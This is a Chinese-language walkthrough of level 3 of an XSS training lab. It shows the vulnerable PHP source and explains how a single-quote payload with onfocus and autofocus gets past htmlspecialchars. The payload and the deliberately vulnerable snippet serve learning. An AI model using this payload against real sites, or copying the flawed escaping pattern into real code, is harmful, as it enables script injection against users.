

# Level-3 （htmlspecialchars 单引号绕过 + 事件注入）

## 万能探针

先扔进去看过滤情况：

```
<SCRscriptIPT>'"()Oonnjavascript
```

## 查看分析源码

```php
$str = $_GET["keyword"];
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>"."<center>
<form action=level3.php method=GET>
<input name=keyword  value='".htmlspecialchars($str)."'>
```

和第 2 关的差别就一行——input value 也加了 `htmlspecialchars`

`<>"` 全转义 → 上一关的 `"><script>` 废了

但 value 外面用的是**单引号** `'` 包裹，而 `htmlspecialchars` 默认不转义单引号

→ `'` 可以闭合 value，不需要破标签，直接在标签里加事件属性

## 构造 payload

```
' onfocus='alert(1)' autofocus='
```

## 闭合原理

拼进去变成：

```html
<input name=keyword value='' onfocus='alert(1)' autofocus=''>
                         ↑__↑ ↑________________________↑ ↑_________↑
                      关value   注入onfocus事件          闭合最后的单引号
```

`autofocus` 让输入框页面一加载就自动获得焦点 → 触发 `onfocus` → 弹窗

其他事件也行（`onclick` `onmouseover`），但要手动交互。`onfocus+autofocus` 全自动。
